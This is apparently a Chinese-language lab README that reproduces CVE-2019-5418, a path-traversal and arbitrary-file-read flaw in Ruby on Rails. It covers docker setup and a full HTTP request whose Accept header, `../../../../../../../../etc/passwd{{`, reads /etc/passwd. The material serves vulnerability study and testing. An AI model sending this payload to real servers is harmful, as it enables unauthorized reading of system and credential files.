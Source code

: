 # Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）

Ruby on Rails 是一个用于快速构建Web应用的框架。

在Ruby on Rails <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3时，当使用`render file`在控制器中渲染应用之外的视图时，会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取和包含任意文件。

参考链接：

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://github.com/mpgn/CVE-2019-5418
- https://xz.aliyun.com/t/4448

## 环境搭建

执行如下命令编译及启动Ruby on Rails 5.2.2：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:3000`即可看到Ruby on Rails的欢迎页面。

## 漏洞复现

访问`http://your-ip:3000/robots`可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取：

![](1.png)
